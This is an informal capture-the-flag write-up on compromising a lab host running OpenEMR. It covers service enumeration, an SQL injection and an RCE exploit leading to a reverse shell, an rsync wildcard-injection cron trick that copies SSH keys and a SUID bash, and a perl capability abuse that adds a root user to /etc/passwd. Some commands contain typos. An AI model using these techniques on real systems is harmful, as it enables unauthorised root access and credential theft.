 Started with a nmap scan
```
21 vsftpd 3.0.3
22 OpenSSH 8.2p1
80 Apache 2.4.41 (Ubuntu)
5900 MariaDB 5.5.5-10.3.31
8890 Apache 2.4.41
``` 
Testing the FTP there is anonymous login allowed there is two hidden folders `.-` and `...` and then there is a file called `you_are_determind.txt` it was a rabbit hole but gives a hint also `see if we can access the admin account` now lets check out the webserver on port `80` and when we go to its a default apache page so lets start a gobuster scan to see what's on the host 
```
/admin #base64 says this might be a username
/shadow #rick rull
/passwd #rick roll
```
Now time to scan the other webhost 
```
/portal
/portal/admin.php
/80
```
Going to the `/portal` we get a login page for `openEMR` and did a bunch of testing like bruteforceing the login page with the user we got hinted to and tried bruteforceing the mysql service and got blocked but in fact we we can just login with no password to the mysql service 
`mysql ip -u admin -P 5900` but there is nothing useful here so we still need to find the version of this that's running and if we go to `/portal/admin.php` we get the version `5.0.1(3)` there is a metasploit module that does a sql injection and we get some users but non of them worked and I noticed this database was different then the other one so going back to the `/admin.php` page there was something interesting there we could make a new site id of `admin` we need to set the mysql creds we got to this new setup and set the user as anything and then run the setup and then go to the new site and now we can login and from the googling we done eailer there was some RCE exploits the one I'm using is on exploit db `45161` and we have to edit the url line to the new site and then we can get a reverse shell as the user `www-data` now we can run linpeas on the host if we look at the cron's running there is one for `plot_admin` 
`cd /var/www/html/portal/config && rsync -t * plot_admin@127.0.0.1:~/backup` 
so we can make a reverse shell in the config folder and it will get run by the user or we can copy `/bin/bash` and make it a executable with the script and then exacute it on are own 
```
touch shell.sh
vi shell.sh
cp /bin/bash /dev/shm/bash
cp ~/.ssh/* /dev/shm
chmod x+s /dev/shm/bash
chmod a+rwx /dev/shm/*
touch -- '-e sh shell/sh'
```
Then wait for the cron job to run and now we can just get the `id_rsa` key and ssh into the host but i was still missing the first flag so I grep the whole system and found it in the web folder in a file called `ThisFileisnotintersting` running linpeas agin I found we have cap vulnerability over perl and we can abuse this 
```
perl -e 'chmod 0777, "/etc/passwd"'
openssl passwd -1 -salt user pass
echo 'user:hash:0:0:/root:/bin/bash' >> /etc/passwd
su user
```
and now we can get the root flag 